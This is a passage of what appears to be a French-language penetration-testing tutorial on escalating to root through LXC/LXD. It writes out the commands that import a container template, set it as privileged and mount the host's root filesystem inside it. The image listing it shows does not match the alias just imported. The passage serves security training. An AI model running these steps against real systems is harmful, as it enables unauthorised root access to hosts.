 À partir de maintenant, il existe maintenant plusieurs façons d'exploiter `LXC`/ `LXD`. Nous pouvons soit créer notre propre conteneur et le transférer vers le système cible, soit utiliser un conteneur existant. Malheureusement, les administrateurs utilisent souvent des modèles peu ou pas sécurisés. Cette attitude a pour conséquence que nous avons déjà des outils que nous pouvons utiliser nous-mêmes contre le système.

  Démon Linux

```
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz

```

Ces modèles n'ont souvent pas de mot de passe, surtout s'il s'agit d'environnements de test simples. Ceux-ci doivent être rapidement accessibles et simples à utiliser. L'accent mis sur la sécurité compliquerait toute l'initiation, la rendrait plus difficile et donc la ralentirait considérablement. Si nous avons un peu de chance et qu'il y a un tel conteneur sur le système, il peut être exploité. Pour cela, nous devons importer ce conteneur en tant qu'image.

  Démon Linux

```
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+

```

Après avoir vérifié que cette image a été importée avec succès, nous pouvons lancer l'image et la configurer en spécifiant l' `security.privileged`indicateur et le chemin racine du conteneur. Cet indicateur désactive toutes les fonctionnalités d'isolation qui nous permettent d'agir sur l'hôte.

  Démon Linux

```
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true --alias=ubuntutemp
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

```

Une fois que nous avons fait cela, nous pouvons démarrer le conteneur et nous y connecter. Dans le conteneur, nous pouvons ensuite accéder au chemin que nous avons spécifié pour accéder au `resource`système hôte en tant que `root`.
